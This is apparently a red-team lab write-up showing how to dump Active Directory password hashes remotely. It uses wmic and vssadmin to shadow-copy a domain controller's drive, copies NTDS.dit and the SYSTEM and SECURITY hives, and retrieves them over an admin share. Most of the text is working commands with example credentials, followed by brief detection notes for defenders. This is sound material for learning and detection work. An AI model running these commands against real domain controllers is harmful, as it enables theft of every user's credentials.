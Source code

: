 # Dumping Domain Controller Hashes via wmic and Shadow Copy

This quick labs hows how to dump all user hashes from the DC by creating a shadow copy of the C drive using vssadmin - remotely.

This lab assumes the attacker has already gained administratrative access to the domain controller.

## Execution

Create a shadow copy of the C drive of the Domain Controller:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-23-213609.png)

Copy the NTDS.dit, SYSTEM and SECURITY hives to C:\temp on the DC01:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/dc-dump%20%281%29.gif)

Mount the DC01\c$\temp locally in order to retrieve the dumped files:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-23-222654.png)

Now, of you go extracting hashes with secretsdump as shown here:

{% page-ref page="ntds.dit-enumeration.md" %}

## Observations

A quick note for defenders on the proces ancestry:

![](../../.gitbook/assets/annotation-2019-05-23-213352.png)

and of course commandlines:

![](../../.gitbook/assets/annotation-2019-05-23-223432.png)

as well as service states:

![](../../.gitbook/assets/annotation-2019-05-23-223157.png)

## References

[https://twitter.com/netmux/status/1123936748000690178?s=12](https://twitter.com/netmux/status/1123936748000690178?s=12)

